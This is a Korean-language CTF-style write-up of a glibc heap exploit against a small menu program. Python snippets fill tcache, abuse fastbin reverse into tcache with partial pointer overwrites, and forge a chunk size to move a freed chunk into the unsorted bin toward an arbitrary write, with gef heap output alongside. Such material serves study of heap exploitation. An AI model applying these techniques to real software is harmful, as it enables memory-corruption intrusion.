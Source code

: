 ![exploit scenario](https://github.com/user-attachments/assets/aece5a2b-2051-4b43-80b1-df68fea69396)

먼저 최종적으로는 fastbin에 있는 chunk를 이용해 AAW를 수행할 것이므로 충분한 사이즈(`0x60`)의 chunk를 fastbin으로 보낸다.

이 때 victim chunk를 unsorted bin으로 보내기 위해 `next_chunk`와의 offset이 `size`와 일치하도록 중간에 chunk를 잘 배치해야 한다.

또한 `next_chunk`가 top chunk일 경우 unsorted bin으로 가지 않고 top chunk에 병합되어버리기 때문에 이를 고려해야한다.
``` python
    # fill tcache 0x70
    for _ in range(8):
        buy(s, 0x60)
    for i in range(7):
        refund(s, i)
    buy(s, 0x3a0)           # index 0 ; align next chunk
    
    # 0x555555559650 chunk goes to fastbin
    refund(s, 7)
```
이렇게 `index 7` chunk(`0x555555559650`)가 fastbin에 보내졌으며 뒤에 `0x3a0` chunk를 할당받아 첫 번째 그림과 같은 형태가 되었다.

이제 chunk size를 overwrite하기 위해 fastbin reverse into tcache 취약점을 이용한다.
``` python
    # partially overwrite next_chunk
    buy(s, 0x10)
    edit(s, 8, b"\x40\x96")
    
    # allocate overwritten heap address
    buy(s, 0x10)
    buy(s, 0x10)
    buy(s, 0x10)            # index 11 ; overwritten heap address

    # overwrite chunk size
    edit(s, 11, p64(0) + p64(0x421))
```
위 payload를 실행하면 두 번째 그림과 같아지며 `0x555555559650` chunk를 해제시켜주면 되는데 `0x555555559650`를 가리키는 포인터가 하나도 없다.

해당 주소는 이미 해제된 chunk의 주소이기 때문에 다시 `0x60` 크기의 chunk를 할당받지 않는 한 접근할 수 없다.

따라서 fastbin reverse into tcache 취약점을 한번 더 사용해서 해당 주소를 반환받는다.
``` python
    # partially overwrite next_chunk
    buy(s, 0x10)
    edit(s, 12, b"\x50\x96")

    # allocate overwritten heap address
    buy(s, 0x10)
    buy(s, 0x10)
    buy(s, 0x10)            # index 15 ; overwritten heap address
    
    # free(0x555555559650) ; move chunk to unsorted bin
    refund(s, 15)
```
이번에는 반환받은 주소를 `edit`하는게 아니라 `refund`를 해서 해제시켜주면 세 번째 그림과 같아진다.
``` bash
gef➤  heap bins
───────────────────────────────── Fastbins for arena at 0x7ffff7fbfb80 ─────────────────────────────────
Fastbins[idx=5, size=0x70]  ←  Chunk(addr=0x555555559650, size=0x420, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) [incorrect fastbin_index]  
                            ←  Chunk(addr=0x7ffff7fbfbf0, size=0x0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) [incorrect fastbin_index]  
                            ←  Chunk(addr=0x555555559650, size=0x420, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  →  [loop detected]
Fastbins[idx=6, size=0x80] 0x00
─────────────────────────────── Unsorted Bin for arena at 0x7ffff7fbfb80 ───────────────────────────────
```